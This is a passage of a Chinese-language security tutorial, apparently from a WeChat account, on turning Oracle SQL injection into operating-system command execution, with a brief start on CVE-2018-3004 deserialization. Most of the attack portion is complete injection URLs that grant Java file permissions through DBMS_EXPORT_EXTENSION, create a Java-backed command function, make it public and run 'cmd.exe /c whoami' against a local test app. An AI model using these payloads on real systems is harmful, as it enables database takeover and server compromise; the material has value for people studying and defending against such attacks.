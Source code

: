 **http://localhost:8080/oracleInject/index?username=admin' and (select**

**SYS.DBMS\_EXPORT\_EXTENSION.GET\_DOMAIN\_INDEX\_TABLES('FOO','BAR','DBMS\_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS\_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms\_java.grant\_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual) is not null --**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**4、创建函数**

**http://localhost:8080/oracleInject/index?username=admin' and (select**

**SYS.DBMS\_EXPORT\_EXTENSION.GET\_DOMAIN\_INDEX\_TABLES('FOO','BAR','DBMS\_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS\_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function cmd(p\_cmd in varchar2) return varchar2 as language java name ''''''''Command.exec(java.lang.String) return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual) is not null --**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**5、赋予函数执行权限**

**http://localhost:8080/oracleInject/index?username=admin' and (select**

**SYS.DBMS\_EXPORT\_EXTENSION.GET\_DOMAIN\_INDEX\_TABLES('FOO','BAR','DBMS\_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS\_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on cmd to public'''';END;'';END;--','SYS',0,'1',0) from dual) is not null--**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**6、执行命令**

**http://localhost:8080/oracleInject/index?username=admin' and (select sys.cmd('cmd.exe /c whoami') from dual) is not null--  
**

### **xml反序列化绕过JVM执行命令 CVE-2018-3004**

如果当前数据库用户具有connect和resource权限，则可以尝试使用反序列化来进行执行命令。Oracle Enterprise Edition 有一个嵌入数据库的Java虚拟机，而Oracle数据库则通过Java存储过程来支持Java的本地执行。

\--create or replace function get\_java\_property(prop in varchar2) return varchar2--   is language java name 'java.lang.System.getProperty(java.lang.String) return java.lang.String';--/select get\_java\_property('java.version') from dual;

**原作者写的是**java.name.System**，这里应该使用**java.lang.System

虽然你以为可以执行Java代码了，直接冲Runtime.getRuntime().exec()就完事了，但是实际上Oracle对权限进行了细致的划分，并不能直接冲。我们可以用一个xml的反序列化来冲。

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**通知！**

**公众号招募文章投稿小伙伴啦！只要你有技术有想法要分享给更多的朋友，就可以参与到我们的投稿计划当中哦~感兴趣的朋友公众号首页菜单栏点击【商务合作-我要投稿】即可。期待大家的参与~**

**![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)**

**记得扫码**

**关注我们**